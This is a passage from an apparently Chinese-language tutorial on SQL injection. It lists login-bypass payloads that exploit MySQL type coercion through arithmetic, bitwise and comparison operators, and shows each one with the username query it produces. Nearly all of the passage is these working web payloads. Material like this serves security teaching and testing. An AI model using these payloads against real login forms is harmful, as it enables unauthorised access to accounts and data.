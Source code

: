 除：/

```
插入'/6#, 拼接的语句: select * from user where username =''/6#';
```

取余：%

```
插入'%1#, 拼接的语句: select * from user where username =''%1#';
```

- 利用位操作运算

我们还可以使用当字符串和数字运算的时候类型转换的问题进行利用。

和运算：&

```
插入'&0#, 拼接的语句: select * from user where username =''&0#';
```

或运算：|

```
插入'|0#, 拼接的语句: select * from user where username =''|0#';
```

异或运算：^

```
插入'^0#, 拼接的语句: select * from user where username =''^0#';
```

移位操作：

```
插入'<<0# 或 '>>0#, 拼接的语句: 
select * from user where username =''<<0#';
select * from user where username =''>>0#';
```

- 利用比较运算符

安全等于：<=>

```
'=0<=>1# 拼接的语句：where username=''=0<=>1#'
```

不等于<>(!=)

```
'=0<>0# 拼接的语句：where username=''=0<>0#'
```

大小于>或<

```
'>-1# 拼接的语句：where username=''>-1#
```

- 其他

```
'+1 is not null#  'in(-1,1)#  'not in(1,0)#  'like 1#  'REGEXP 1#  'BETWEEN 1 AND 1#  'div 1#  'xor 1#  '=round(0,1)='1  '<>ifnull(1,2)='1
```

